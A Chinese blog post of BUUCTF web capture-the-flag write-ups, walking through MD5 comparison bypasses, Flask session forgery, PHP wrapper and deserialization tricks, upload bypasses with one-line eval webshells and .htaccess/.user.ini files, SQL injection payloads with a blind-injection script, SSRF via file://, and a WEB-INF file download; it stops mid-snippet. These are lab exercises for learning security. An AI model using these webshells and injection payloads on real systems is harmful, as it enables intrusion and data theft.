BUUCTF 刷题笔记——Web 2
BUUCTF 刷题笔记——Web 2
[BJDCTF2020]Easy MD5
打开靶机，页面中仅有一个输入框，提交一个数据发现其将数据使用 GET 方法传给变量 password。
在几次测试后网页并没有什么变化，因此 F12 检查一下，发现在响应头中含有一个特殊字段 hint，内容为一个 SQL 语句，提示数据传入后会进行 MD5 加密。可以传入字符串 ffifdyop 进行绕过，该字符串哈希之后前几位正好构成永真式。
1
Hint: select * from 'admin' where password=md5($pass,true)
绕过后网页跳转到 /levels91.php，仅显示一句话，但是调试界面可以看到一串被注释的代码。
代码提示该页面通过 GET 方法获取变量 a 和 b，仅在 a 不等于 b 但同时 MD5 值又相同的才行。这就很熟了，直接数组绕过，payload 如下：
1
?a[]=1&b[]=2
随后网页跳转到另一个文件并且显示了如下代码：
1
2
3
4
5
6
7
8
9
error_reporting(0);
include "flag.php";
highlight_file(__FILE__);
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
echo $flag;
}本次依然是要两个参数不相等且 MD5 值又相等，不过传递方式变成了 POST，比较方式也换成了强等于。强等于不会在比较前对数据类型进行转换，而上述方法并不涉及数据转换，因此使用如下 payload 即可绕过。
1
param1[]=1¶m2[]=2
[HCTF 2018]admin
打开靶机，网页包含了登录与注册两个功能，LOGO 处可以点击，但是会返回 404。
标题提示肯定需要 admin，这里就不猜他的密码了，
紧急播报，可弱口令 123 直接登入拿到 flag 。先注册一下摸摸网站功能，注册登录后网页有了编辑、修改密码以及登出功能。笔者并没能在这些功能上找到突破点，不过，在更换密码界面的注释中包含了一个 GitHub 的仓库地址，目测应该是网站的源码。

flask session 伪造
由于笔者对 flask 完全部署，因此只能将整个目录拖进 VS Code 中检索关键字，发现首页代码如下：
1
2
3
4
5
6
7
8
9
10
11{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1>
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1>
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>
{% include('footer.html') %}也就是说，只要能伪造 name 字段为 admin 的 session 即可。
- session 被设计为可读取但是不可修改，服务器会对该数据进行签名，数据格式我们可以解密现有 session，而对数据签名还需要 SECRET_KEY，该值一般由后台随机生成，该配置位于 config.py 文件中。实测被固定为了 ckj123，因此我们可以拿来直接签。
1
2
3
4
5
6import os
class Config(object):
SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
SQLALCHEMY_TRACK_MODIFICATIONS = True 伪造工作可以借助 flask-session-cookie-manager 来完成，读取出的数据格式如下：
将用户名修改为 admin 并加上 ckj123 加密一遍便伪造完成了，值得注意的是数据内容原本均为双引号包裹，而作为参数再次被双引号包裹便会混淆，因此这里将各部分数据修改为单引号包裹。
将上述伪造的 session 插入数据报中的相应位置之后发包即可被识别为 admin，flag 便到手了。

Unicode 欺骗
本题还有一个有意思的解法，在初期测试时会发现大写字母版的 ADMIN 照样不能注册，这是因为后台做了大小写过滤。审计代码可知该操作具体由 nodeprep.prepare 函数将字母统一转换为小写来完成，而旧版本的该函数存在一个有意思的漏洞，其不仅会将大写字母转换为小写字母，还会将奇奇怪怪的 Unicode 字符 ᴬᴰᴹᴵᴺ 等转换为大写字母 ADMIN。并且在修改密码、注册、登录这些操作中程序都会将用户名小写处理一遍，因此若注册用户名 ᴬᴰᴹᴵᴺ 并在登录后修改密码，便会经过两次处理变成修改 admin 的密码，那我们就正常登录就行了。

条件竞争
- 许多师傅都会提一下这个解法，原理是在注册时设置用户名为 admin，这样就会传递一个用户名为 admin 的 session，与此同时再次发起更改密码的请求，因为没有登录，本来服务器应该不认识，但是由于后台同时保留了用户名为 admin 的 session，因此最终就会变成修改 admin 的密码。该操作十分粗略，要求也高，不仅师傅们基本复现不了，笔者更是试都没试。
[ZJCTF 2019]NiZhuanSiWei
打开靶机后页面为如下 PHP 代码，应该就是本题源码。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
// GET 方法接收三个参数
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
// 判断 text 是否被赋值并检验其对应文件内容是否为 welcome to the zjctf
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
// 打印文件内容
echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
// 判断 file 变量中是否包含 flag 字样
if(preg_match("/flag/",$file)){
echo "Not now!";
exit();
}else{
// 若 file 中不包含则将其指向的文件包含进来
include($file); //useless.php
// 将 password 反序列化并打印
$password = unserialize($password);
echo $password;
}
}
else{
// text 参数不符合要求则回显源码
highlight_file(__FILE__);
}审计后可知，程序通过 GET 方法获取三个参数，其中 text 参数需要指向一个文件并且文件内容必须为
welcome to the zjctf，而 file 参数则不能带有 flag 并且可被 include，源码还以注释的形式提示文件 useless.php，而 password 参数则会被反序列化并输出。到此为止还无法确定如何获取 flag，因此我们先研究一下提示的 useless.php 文件。该文件内容并不能被浏览器直接获取，因此是普通的 PHP 代码文件。想要读取其中内容可借助程序中的包含操作，不过在此之前，我们需要让 text 指向一个含指定内容的文件。这一任务可以交给 PHP 伪协议 data:// 来完全，其为一个数据流封装器，用户输入该数据流会被当作 PHP 文件执行，当然现在并不需要他被执行，因此对内容进行 base64 加密即可。text 赋值如下：
1
text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
然后构造 file 参数来读取 useless.php 文件，这一任务可以交给 php://filter 来完成。其为一个元封装器，使用 resource 参数指定数据流，被包含时数据流会被当作 PHP 文件执行，当然我们依然不能让他执行，因此对数据流先进行 base64 加密。file 赋值如下：
1
file=php://filter/read=convert.base64-encode/resource=useless.php
组合上述参数提交即可拿到 base64 编码后的 useless.php 文件内容，payload 如下。
1
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php
将浏览器回显的编码解码之后的 PHP 代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
class Flag{ //flag.php
public $file;
public function __tostring(){
if(isset($this->file)){
echo file_get_contents($this->file);
echo "<br>";
return ("U R SO CLOSE !///COME ON PLZ");
}
}
}
这段代码中包含一个类，类中自带了 __tostring() 函数并会输出其中 file 变量所指向的文件的内容，并且注释提示 flag.php，因此构造该类的实现并让其输出 flag.php 文件即可获得 flag。
因为程序对对象执行 echo 时会自动调用 __tostring() 函数，因此现在只需借助 password 参数的反序列化操作传递一个对象即可。对象序列化字符串如下，其中 file 被指定为 flag.php 文件。
1
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
然后将 password 参数加入即可获得 flag。当然，由于现在需要 useless.php 作为 PHP 文件执行，因此直接传文件名即可，最终 payload 如下：
flag 被放在了注释中。 1
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
[MRCTF2020]你传你🐎呢
打开靶机后，本题从标题到页面都很有个性，从交互功能来看，应该考的是文件上传。
BUU 测试时图片文件并不能成功上传，这是因为平台限制了可上传的大小，将图片缩小即可。实测后台对 MIME 信息作了限制，只有图片文件可以上传成功，同时对于 php、php3、phtml 等后缀名均作了限制，但是 .htaccess 可以正常上传，因此首先使用该文件指定我们的木马文件可被解析为 PHP 文件，然后再传马即可。.htaccess 文件内容如下，也就是将 muma.h-t-m 文件解析为 PHP 文件。
1
2
3<FilesMatch "muma.h-t-m">
SetHandler application/x-httpd-php
</FilesMatch>之后构造一句话木马并命名为 muma.h-t-m，木马内容如下：
1
eval($_POST['h-t-m']);
然后分别上传两个文件，由于 MIME 信息存在过滤，因此上传时需要把数据报中的 Content-Type 字段修改为 image/png，上传之后浏览器会回显路径。
按照上述路径使用蚁剑连接即可。

[极客大挑战 2019]HardSQL
靶机页面为一个登录框，测试时含有三种反应界面：
输入为普通错误账户密码时；
输入为带有引发报错的字符时；
包含被屏蔽字时；

本题有报错回显，可以使用报错注入，不过需要注意绕过后台的屏蔽字。实测屏蔽了 and、by、*、\、= 以及空格等，这里使用 extractvalue() 函数来报错，由于空格与星号都被屏蔽，因此无法使用注释绕过空格，但是还可以利用小括号，构造如下 payload 即可查询当前数据库名。
1
'or(extractvalue(1,concat('~',database(),'~')))#
查询结果如下图，因此当前数据库名为 geek。
接下来便可获取表名，其中空格依然使用小括号绕过，值得注意的是等号也被屏蔽了，因此这里使用 like 运算符绕过，payload 如下。
1
'or(extractvalue(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),'~')))#
查询结果如下，因此当前数据库仅有一张名为 H4rDsq1 的表。
然后便可继续查询字段名，payload 如下。
1
'or(extractvalue(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~')))#
查询结果如下，因此该表中共有 id、username、password 三个字段。
最后便是数据的查询，payload 如下。
1
'or(extractvalue(1,concat('~',(select(group_concat(id,'-',username,'-',password))from(H4rDsq1)),'~')))#
查询结果如下，flag 已经出来了，但是，空间不够，只出来了一半。
可以使用 right() 函数来取数据的后部分内容，flag 长度有限，因此取后部 25 个字符即可明显看出与前部重复的部分。
1
'or(extractvalue(1,concat('~',(select(group_concat(right(password,25)))from(H4rDsq1)),'~')))#
右侧部分 flag 内容如下，将前后查出来的结果拼接去重即可拿到完整 flag。

[MRCTF2020]Ez_bypass
打开靶机后页面仅有以下内容，是一段含有关键词 flag 的极具诱惑性的代码。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
$id=$_GET['id'];
$gg=$_GET['gg'];
if (md5($id) === md5($gg) && $id !== $gg) {
echo 'You got the first step';
if(isset($_POST['passwd'])) {
$passwd=$_POST['passwd'];
if (!is_numeric($passwd))
{
if($passwd==1234567)
{
echo 'Good Job!';
highlight_file('flag.php');
die('By Retr_0');
}
else
{
echo "can you think twice??";
}
}
else{
echo 'You can not get it !';
}
}
else{
die('only one way to get the flag');
}
}
else {
echo "You are not a real hacker!";
}
}
else{
die('Please input first');
}
}Please input first审计代码可知，程序接受三个参数，其中以 GET 方法接收 id 与 gg 两个参数，要求他们俩强不等于但是 MD5 值强等于。另外一个参数 passwd 通过 POST 方法提交，要求其不能为纯数字，但是又要等于 1234567。
- id 与 gg 直接使用数组即可绕过，而 passwd 参数则在 1234567 后加入其他非数字字符即可变成字符串类型，并且与数字比较时会自动取前部数字序列比较，正好相等，因此构造如下 payload 即可。
1
2
3
4
5// GET
?id[]=1&gg[]=2
// POST
passwd=1234567h-t-m
[SUCTF 2019]CheckIn
打开靶机为一个文件上传页面，看来考的又是文件上传。
直接上传 PHP 木马文件会提示非法后缀，尝试别名之后依然提示非法后缀，而将后缀名修改为自己名字时则会提示文件含有 <? 也就是 PHP 的开头标识。因此可以判断程序对文件设有后缀名黑名单过滤，此外我们还需要绕过 <? 检查。
绕过 <? 检查只需使用其他写法即可，例如可以将木马插入 <script> 标签中。
1
<script language="php">@eval($_POST['h-t-m']);</script>
黑名单绕过可以使用配置文件加自定义后缀名，首先得确定能上传配置文件，测试发现程序还有 exif_imagetype 过滤。
该函数会检查文件头，因此构造一个合法文件头即可，这里直接使用最简单的 GIF 的文件头 GIF89a，之后上传 .htaccess 配置文件便成功了，文件内容如下：
1
2
3
4GIF89a
<FilesMatch "muma.h-t-m">
SetHandler application/x-httpd-php
</FilesMatch>上传成功之后会回显文件路径以及目录中的文件，貌似上传文件夹还有一个 index.php 文件。

随后将带有一句话木马的 muma.h-t-m 文件上传即可，当然，需要添加合法文件头以及绕过 <? 检查，例如将木马插入 <script> 标签中。文件内容如下：
1
2GIF89a
<script language="php">@eval($_POST['h-t-m']);</script>上传之后便可连接了，理论上。但是并没有成功，浏览器直接访问文件发现可以被下载，也就是说 .htaccess 文件并没有生效，muma.h-t-m 文件并没有被解析为 PHP 文件。查询发现靶机服务器使用的是 Nginx，一般情况下 .htaccess 仅适用于 Apache.
那么就应该考虑范围更广的配置文件 .user.ini，同样是在 upload-labs 时代的老朋友了，主要有这两条指令：
1
2auto_prepend_file=muma.h-t-m //在页面顶部加载muma.h-t-m文件
auto_append_file=muma.h-t-m //在页面底部加载muma.h-t-m文件其实就是会将文件内容包含进 PHP 文件中再运行。而要达到这个目的，还需要三个前提条件：
- 服务器脚本语言为 PHP
- 服务器使用 CGI／FastCGI 模式
- 上传目录下要有可执行的 PHP 文件
那就很有意思了，在此前文件上传成功的回显文件列表中，就一直存在一个 index.php 文件，就是专门在这等着呢，
在同目录看到 PHP 竟然完全没反应过来是 .user.ini，惭愧惭愧 。那么接下来构造 .user.ini 文件并带上文件头即可，文件内容如下：
1
2GIF89a
auto_prepend_file=muma.h-t-m此时配合上传之前的 muma.h-t-m 文件即可在上传目录下的 index.php 文件开始插入木马，因此使用蚁剑工具访问 index.php 文件即可。
值得注意的是，实测后台貌似会定时删除上传的文件，因此如果上传后显示的文件列表中没有同时出现上传的两个文件，则重新上传一次即可。

[网鼎杯 2020 青龙组]AreUSerialz
打开靶机直接就是一大段代码，并在开头引入了 flag.php 文件，后续代码大致可分为三部分：一个函数，一个 if 代码块以及一个类定义。该程序的入口便是这个 if 代码块：
1
2
3
4
5
6if(isset($_GET{'str'})) {
$str = (string)$_GET['str'];
if(is_valid($str)) {
$obj = unserialize($str);
}
}其通过 GET 方法接收一个参数 str，转换为字符串之后放入自定义函数 is_valid() 中作判断以决定是否对其进行反序列化。
接下来看看这个 is_valid() 函数的具体实现：
1
2
3
4
5
6function is_valid($s) {
for($i = 0; $i < strlen($s); $i++)
if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
return false;
return true;
}该函数会逐个判断字符串中的每个元素是否在可打印范围之内（无视 ~），因此之后全部由可打印字符构成的字符串才可通过检查并反序列化。
而最后的这个类就应该是本题反序列化的主角了，该类中含有三个 protected 属性的成员变量以及各种属性的成员方法。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66class FileHandler {
protected $op;
protected $filename;
protected $content;
function __construct() {
// 为成员变量赋初值
$op = "1";
$filename = "/tmp/tmpfile";
$content = "Hello World!";
// 调用成员方法
$this->process();
}
public function process() {
// op 为 1 则写入，op 为 2 则读取并输出
if($this->op == "1") {
$this->write();
} else if($this->op == "2") {
$res = $this->read();
$this->output($res);
} else {
$this->output("Bad Hacker!");
}
}
private function write() {
if(isset($this->filename) && isset($this->content)) {
// 限制可写入数据长度不能大于 100
if(strlen((string)$this->content) > 100) {
$this->output("Too long!");
die();
}
// 向 filename 指向的文件中写入 content 的内容
$res = file_put_contents($this->filename, $this->content);
if($res) $this->output("Successful!");
else $this->output("Failed!");
} else {
$this->output("Failed!");
}
}
private function read() {
$res = "";
if(isset($this->filename)) {
// 读取指定文件内容
$res = file_get_contents($this->filename);
}
return $res;
}
private function output($s) {
echo "[Result]: <br>";
// 输出参数
echo $s;
}
function __destruct() {
// 若 op 为 "2" 则改为 "1"
if($this->op === "2")
$this->op = "1";
$this->content = "";
// 调用成员方法 process
$this->process();
}
}各方法主要作用已置于注释中，值得注意的是，我们需要利用的是反序列化漏洞，因此该类中可能被程序主动调用的就只有其析构函数 __destruct，该函数会将变量 op 从字符 2 修改为字符 1，而由 process 函数可知只有 op 值为一是才可以读取文件，因此首先需要绕过这里，后续 process 的操作会由析构函数完成调用。
析构函数中变量 op 与字符 2 比较时使用的是强等于，因此只需将 op 赋值为整形数字 2 即可绕过。其次将成员变量 filename 指定为 flag.php 最后便可读取他。至于 content 变量，不重要。所以构造的类如下：
1
2
3
4class FileHandler {
protected $op = 1;
protected $filename = "flag.php";
}现在主要的问题就在于 is_valid() 函数的判断了，其限制了序列化字符串只能含有可打印字符串，而 protected 属性则会在序列化后的对应字段名前后加上空字符 \0 来作为标识。而解决方案嘛，去掉空字符就好了，
太粗鲁了 。因为 PHP 7.1+ 版本对属性类型不敏感，直接当 public 处理就好，实际证明靶机使用的 PHP 版本确实符合。因此 payload 如下，其中 op 变量值必须为整形，即序列化后的类型标识为 i。1
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";}
最终 flag 是被注释的，因此需要 F12 查看。
[GXYCTF2019]BabySQli
打开靶机是一个简单的登录页面，测试发现在随便输入数据时网页会跳转到 search.php 并提示错误用户，而在用户名使用 admin 测试时则会提示错误密码，因此本题程序使用的 SQL 语句并非以用户名密码同时作为查询条件。关于这一点可以在 search.php 页面的注释部分找到提示：
该段序列显然应该是加密后的，一般大部分会采用 base64 加密，但是很遗憾该序列只有数字和大写字母。不过还是有可能是 base32 的，尝试 base32 解密之后得到如下：
1
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
标志性的等于号，基本就是 base64 编码了，搁这等着呢，再次解密即可获得一句 SQL 语句：
1
select * from user where username = '$name'
可以确定后台程序通过用户名来从 user 表中获取所有数据，而至于密码，应该会在后续进行比对。此外，该注入点可回显报错信息，不过实测本题屏蔽了小括号，因此报错注入便不太好实现了，但是可以确定注入点闭合符号为单引号。
由于密码是取查询结果来进行对比的，因此如果使用 union 构造我们相要的结果，虽然不能爆出数据，但登录管理员 admin 账号还是可以的。不过在此之前还需要对原 SQL 语句查询的字段名即顺序做个确认，实测查询还屏蔽了 or，因此无法使用 order by 判断真实查询字段数，但是联合注入可以替代，例如如下 payload 会回显错误密码，说明共查询三个字段且第二个字段为用户名。
1
1' union select 1,'admin',3#
前期并不能判断密码在第一位还是最后一位，不过根据经验，肯定时最后没跑了。所以可以在用户名处构造 payload 如下，此时查询出来的用户名密码就变成了 admin 和 h-t-m。
1
1' union select 1,'admin','h-t-m'#
很丝滑，但是不行，因为密码被处理过了。最常用的当然时 MD5 加密，实测本题依旧如此，数据库中存储的数据为密码的 MD5 加密后的数据，因此需要修改用户名处的 payload 如下：
1
1' union select 1,'admin','3f4a7c65b1ddcf47a604efa9efe4c069'#
此时输入密码 h-t-m 即可登录管理员账户，页面只有 flag，所以本题的任务真的就只是登录管理员账户而已。
笔者一致琢磨爆库来着。
[GXYCTF2019]BabyUpload
打开靶机为一个简单的文件上传页面，实测并不支持 PNG 与 GIF 格式的图片，只成功上传了 JPG 图片。不过大概是因为平台限制所以略大的图片均无法上传，而缩小体积之后便可成功上传，并且会回显上传路径，太适合传马了。
直接上传 PHP 木马文件，网页会提示后缀名不能有 ph：
因此本题对后缀名作了过滤，限制为 ph 的话基本后缀名的别名都不能用了，所以还是尝试上传一般后缀名文件并上传配置文件将其解析为 PHP 程序。首先还是把木马文件传上去，修改后缀名为 h-t-m，成功绕过了后缀名检测，但是浏览器再次回显错误：
考虑到初期测试发现只能上传 JPG 图片，因此后台大概率对 MIME 信息也做了检测，抓包修改为 image/jpeg 后回显如下：
这么针对 PHP，肯定过滤了 <?，使用如下一句话木马来绕过就好：
1
<script language="php"> @eval($_POST['h-t-m']);</script>
随后即可看到上传成功的提示，如此一来便快拿下本题了。
接下来就该上传配置文件了，老样子还是 .htaccess 文件，其内容如下：
1
2
3<FilesMatch "muma.h-t-m">
SetHandler application/x-httpd-php
</FilesMatch>上传时记得把 MIME 信息改为 image/jpeg，然后就成功上传了。之后使用蚁剑直接连接 muma.h-t-m 文件即可，此处不再赘述。
[GYCTF2020]Blacklist
打开靶机是一个简单的查询框，输入数字即可返回查询结果，从 URL 的变化可以确定数据以 GET 方法提交。其中，若加上转义符号，浏览器则会回显报错，可以看出闭合符号为单引号。
接下来就可以慢慢注入了，首先判断后台实际查询的字段数。通过如下两个 payload 的反应可判断字段数为 2。
1
2?inject=1'order by 2--+
?inject=1'order by 3--+由于正常查询时浏览器仅回显了两个数据，因此不必判断回显位，毕竟他们都可以回显。但是后面继续查询时则会返回如下语句，可以发现很多关键词都被屏蔽了，因此我们无法使用这些关键词完成后续查询。
1
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
不过，show 并没有被屏蔽，因此可以尝试使用堆叠注入执行 show 语句来获取一些信息。不过得先确认浏览器可以回显堆叠查询得结果，如下 payload 可查询出所有的数据库名：
1
?inject=0';show databases;
不过如果需要了解当前数据库的话，可以使用报错注入调用 database() 函数来完成，这样不需要用到黑名单中的关键字。payload 如下：
1
?inject=0'+and+extractvalue(1%2Cconcat('~+'%2Cdatabase()%2C'+~'))--+
查询结果如下，可知当前使用的数据库名为 supersqli。
接下来使用如下 payload 即可查询当前数据库中的所有表名。
1
?inject=0';show tables;
查询结果如下，可知当前数据库下共有两张表，分别是 FlagHere 与 words。
当然也可以加上 from 来查询其他数据库中的所有表名，比如如下 payload 可查询此前查询出来的数据库 ctftraining 中的所有表。
1
?inject=0';show tables from ctftraining;
根据表名的提示可以认为 flag 就在 FlagHere 表中，因此接下来直接读取这张表即可。由于 select 被屏蔽，所以这里需要用到 handler 来爆出表中数据。payload 如下，先 open 然后就可以读数据了。
1
?inject=0';handler FlagHere open;handler FlagHere read first;
由于 flag 就在第一行，因此读取 first 便可拿到 flag，若需要继续往下读取的话可以 read next。出于礼貌，也可以在最后将该操作 close 掉，如下：
1
?inject=0';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
[CISCN2019 华北赛区 Day2 Web1]Hack World
打开靶机再次是个简单的查询页面，并且明确告诉我们 flag 就在 flag 表 flag 字段中。
经过测试，仅有在输入数据为 1 或 2 时有效，其余均回显查询出错或在检测到关键词时回显发现 SQL 注入，实测加减乘、union、空格、双引号、分号、or、and 及其符号表达等等许多注入常用关键字均被屏蔽。不过 select、from 并没有被屏蔽，但是在这种情况下貌似并不好利用。还有除号没被过滤，所以可以先测试是否为数字型注入，使用以下表达式作为 payload，提交之后发现其等价于 2，因此此处为数字型注入。
1
6/3
此外在测试中笔者发现当关键字出现在字符首尾是便不会检测到，因此后台大概率是根据关键词第一次出现的位置来作为检测依据并且没有完成对 False 与 0 的区分。
大部分常规注入都被有效屏蔽，经过各种尝试失败后，只好选择最麻烦的盲注，毕竟那些函数还是基本没有被过滤的，在参观其他师傅们的题解后发现本题考的就是盲注。本题在常规查询时存在三种回显，因此布尔盲注完全可用，正好此处为数字型注入，直接传一个 if 表达式即可。flag 所在表与字段已知，故可以构造如下 payload：
1
if(ascii(substr((select(flag)from(flag)),1,1))>ascii('a'),1,2)
手工盲注太痛苦了，还是写个脚本如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32from time import sleep
import requests
url = '[靶机地址]'
result = ''
n = 1
while 1:
high = 126
low = 31
mid = (high + low) // 2
while high > low:
sleep(0.05)
payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (n, mid)
id = {"id": payload}
res = requests.post(url, data = id)
if 'Hello' in res.text:
low = mid + 1
else:
high = mid
mid = (high + low) // 2
x = int(mid)
if x != 31:
n += 1
result += chr(x)
print(result)
else:
break这里使用简单的二分查找完成盲注，其中码值 31 留作识别 flag 是否结束，sleep() 函数则用于降低频率以抵消平台的频率限制。
[网鼎杯 2018]Fakebook
打开靶机为一个伪社交网站，首页有 join 与 login 两个功能按钮，分别对应注册与登录功能。注册时在 blog 会要求填写 URL，如下为笔者注册的三个账户，blog 分别对应 B站的三种形式 URL，后续会用到。
点击用户名即可进入该用户的主页，网页下方貌似有一栏为用户博客的预览，界面太小看不到，但是在网页源码中可以看到程序访问了用户的 blog。
经过测试，网站并不支持跳转链接，即上述 URL 中的 bilibili.com 会跳转至 www.bilibili.com，而程序直接访问 bilibili.com 则会回显 301 状态码。当然重点在于服务器确实对用户的博客链接发起了访问，这一点就很有用了。
在切换页面的时候很难不注意到 URL 中通过 GET 方法传输的变量 no，因为涉及到特定数据的回显，所以大概率使用了数据库查询，尝试 SQL注入。事实证明确实存在 SQL 注入，并且由以下 payload 可以确定是数字型注入。
1
2/view.php?no=1 and 1=1
/view.php?no=1 and 1=2继续由以下两个 payload 可知后台共查询了四个字段的数据。
1
2/view.php?no=-1 order by 4--+
/view.php?no=-1 order by 5--+然后在使用 union 确定回显位的时候发现被过滤了，并且过滤的是 union + 空白字符 + select 的组合，使用多行注释符 /**/ 即可绕过，通过如下 payload 可以发现第二个数据成功回显，因此可以从这个位置爆出数据。
1
/view.php?no=-1 union/**/select 1,2,3,4--+
值得注意的是在左上角的提示中有反序列化函数，因此此处应该还存在序列化的数据。
接下来使用 2 号位爆数据，首先通过如下 payload 查询处数据库名为 fakebook。
1
/view.php?no=-1 union/**/select 1,database(),3,4--+
然后使用如下 payload 查询出数据库中存在唯一表 users。
1
/view.php?no=-1 union/**/select 1,(select group_concat(table_name) from information_schema.tables where table_schema='fakebook'),3,4--+
再使用如下 payload 查询出表中的各字段名：no、username、passwd、data。
1
/view.php?no=-1 union/**/select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3,4--+
最后便是爆数据了，使用如下 payload 即可一次性爆出整张表。
1
/view.php?no=-1 union/**/select 1,(select group_concat(concat_ws('%20 -%20 ',no,username,passwd,data) separator '<br>') from users),3,4--+
结果如下，其中密码数据使用了 SHA-512 哈希，不过表中并不包含 flag。
值得注意的是表中 data 字段的数据是一串序列化的字符串，包含了一个完整的 UserInfo 对象。根据此前的反序列化提示可知，注入过程网页中未正常回显的年龄网站以及网页预览等数据皆来自对该序列化对象的反序列化，而只要对象中 blog 数据指向哪里，服务器就会对哪里发起请求并获取数据。既然 flag 不在数据库中，那就基本在靶机的目录里，因此可以尝试借助此处 blog 地址来读取目录中的各文件。由于注册时该部分限制为 URL，因此此处需要借助 SQL 注入来修改对应数据为本地目录。
不过在此之前，我们得先知道靶机目录存在哪些文件，对靶机进行一次扫描结果如图。
其中 flag 大概率存在于 flag.php 文件中，该文件大小为 0，说明其被解析执行了，要获取其中数据就只能从后台读取。此外貌似还有后台源码的备份文件，由于现有信息足够解题，因此这里不对源码作分析。
SSRF
那么接下来就可以通过修改 blog 中的数据指向 flag.php 文件即可在访问对应用户主页时在源码中获取到文件内容。事实上当前注入环境要修改数据库内容并不容易，但是我们可以利用联合查询来构造伪查询结果，该部分 payload 如下，其中
file:///var/www/html/flag.php即为文件读取路径。原本密码处的数据随便填即可，毕竟不用作验证。1
/view.php?no=-1 union/**/select 1,'h-t-m',3,'O:8:"UserInfo":3:{s:4:"name";s:5:"h-t-m";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--+
随后即可在网页源码中找到 falg。小提一嘴，像本题这样借助后台服务器发起请求完成访问的解法一般称之为 SSRF。

load_file
有趣的是，本题读取文件的操作也可以由 SQL 来完成，使用如下 payload 便可在网页源码中获得 flag。
1
/view.php?no=0 union/**/select 1,load_file("/var/www/html/flag.php"),3,4--+
[RoarCTF 2019]Easy Java
打开靶机为一个登录界面，但是并不提供注册入口，底部留有一个 help 链接，其内容如下：
页面提示一个错误，其中文件名与 URL 中通过 GET 方式提交的文件名对应，也就是说咱给什么它就报哪个错。既然程序打不开，那就尝试浏览器直接访问一下，发现可以直接下载，但是里面仅仅如下：
那其实进行到这里这题就被我做死了，后续就无从下手了，参考其他师傅的题解后发现下载文件的正确姿势是改成使用 POST 方式提交，有关这一点其实笔者也觉得略有些奇特，但在后续查看本题源码时发现，题目就是这样设计的。两种提交方式不同的实现方法，该部分源码如下，所以一开始的 FileNotFoundException 仅仅只是打印出来唬人的。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
String filename = request.getParameter("filename");
System.out.println("POST Method---> " + filename);
response.setHeader("Content-Disposition", "attachment;filename=" + filename);
String mimeType = this.getServletContext().getMimeType(filename);
response.setContentType(mimeType);
String path = this.getServletContext().getRealPath(filename);
System.out.println(path);
ServletOutputStream sout = response.getOutputStream();
FileInputStream in = new FileInputStream(path);
int b;
while((b = in.read()) != -1) {
sout.write(b);
}
}
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
PrintWriter pw = response.getWriter();
String filename = request.getParameter("filename");
System.out.println("Get Method---> " + filename);
pw.print("java.io.FileNotFoundException:{" + filename + "}");
}通过 POST 提交之后下载功能便恢复正常了，而且是可以任意下载！这里就不得不提到 Java Web 应用中的安全目录 WEB-INF 了，应用中的文件并不能直接访问，必须通过 WEB-INF 目录下的 web.xml 来获取对应文件的映射来访问。也就是说，获取这个文件之后，我们就可以拿到项目中其他文件的具体地址，而 flag 说不定就藏在哪个文件中。不过在此之前我们还需要了解以下 WEB-INF 的目录结果，关于这一点网上很多师傅都有总结，这里也存一份：
/WEB-INF/web.xml：
Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：
含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：
存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：
源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：
数据库配置文件
然后通过 POST 方法提交如下 payload 即可下载 web.xml 文件。
1
filename=/WEB-INF/web.xml
文件中有如下两项出现了关键词 flag：
1
2
3
4
5
6
7
8<servlet>
